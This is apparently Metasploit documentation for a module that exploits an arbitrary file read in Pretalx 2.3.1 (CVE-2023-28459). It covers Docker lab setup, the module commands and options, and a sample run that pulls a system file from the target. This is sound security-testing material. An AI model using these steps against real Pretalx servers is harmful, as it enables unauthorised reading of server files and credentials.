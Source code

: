 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. The module requires set of credentials of Pretalx user and Pretalx needs to have existing conference, where the attacker can submit malicious proposal.

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `Dockerfile`:
```
FROM python:3.10-bookworm

RUN apt-get update && \
    apt-get install -y git gettext libmariadb-dev libpq-dev locales libmemcached-dev build-essential \
            supervisor \
            sudo \
            locales \
            --no-install-recommends && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    dpkg-reconfigure locales && \
    locale-gen C.UTF-8 && \
    /usr/sbin/update-locale LANG=C.UTF-8 && \
    mkdir /etc/pretalx && \
    mkdir /data && \
    mkdir /public && \
    groupadd -g 999 pretalxuser && \
    useradd -r -u 999 -g pretalxuser -d /pretalx -ms /bin/bash pretalxuser && \
    echo 'pretalxuser ALL=(ALL) NOPASSWD:SETENV: /usr/bin/supervisord' >> /etc/sudoers

ENV LC_ALL=C.UTF-8


COPY pretalx/pyproject.toml /pretalx
COPY pretalx/src /pretalx/src
COPY deployment/docker/pretalx.bash /usr/local/bin/pretalx
COPY deployment/docker/supervisord.conf /etc/supervisord.conf

RUN pip3 install -U pip setuptools wheel typing && \
    pip3 install -e /pretalx/[mysql,postgres,redis] && \
    pip3 install pylibmc && \
    pip3 install gunicorn && \
    chmod -R 777 /public


RUN python3 -m pretalx makemigrations
RUN python3 -m pretalx migrate

RUN apt-get update && \
    apt-get install -y curl && \
    curl -fsSL https://deb.nodesource.com/setup_20.x | bash - && \
    apt install nodejs npm && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    python3 -m pretalx rebuild

RUN chmod +x /usr/local/bin/pretalx && \
    cd /pretalx/src && \
    rm -f pretalx.cfg && \
    chown -R pretalxuser:pretalxuser /pretalx /data /public && \
    rm -f /pretalx/src/data/.secret && \
    cat /public/static/CACHE/css/main.* >> /pretalx/src/static.dist/common/scss/uncompressed.css && \
    cat /public/static/CACHE/css/main.* >> /pretalx/src/pretalx/static/common/scss/uncompressed.css

USER pretalxuser
VOLUME ["/etc/pretalx", "/data", "/public"]
EXPOSE 80
ENTRYPOINT ["pretalx"]
CMD ["all"]
```
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password - `sudo docker exec -it pretalx pretalx init`
1. Go to `orga/event/`
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/`
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/pretalx_file_read_cve_2023_28459`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set EMAIL [user email]`
1. Do: `set PASSWORD [password]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`

## Options

### CONFERENCE_NAME

The slug (shortcut) name of the conference. The module requires existing conference, where an attacker can submit malicious proposal (e.g. conference-secret-2025)

### FILEPATH
Absolute path to the target file.

### MEDIA_URL

Pretalx uses path to `media` folder, which is used as prepend to target file path to achieve arbitrary file read. The default value is `/media`, however, it can be modified by user.

### EMAIL

Email of Pretalx user that can approve proposals and release schedule.

### PASSWORD

Password of Pretalx user that can approve proposals and release schedule.

## Scenarios
```
msf auxiliary(scanner/http/pretalx_file_read_cve_2023_28459) > run verbose=true 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1
[*] Register malicious proposal
[*] Logging with credentials: [username]/[password]
[*] Approving proposal
[*] Adding h85WcLe4t4 to schedule
[*] Releasing schedule
[*] Trying to extract target file
[*] Extraction successful
[*] Stored results in /home/ms/.msf4/loot/20250725165914_default_192.168.168.146_pretalx.etcpas_473038.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
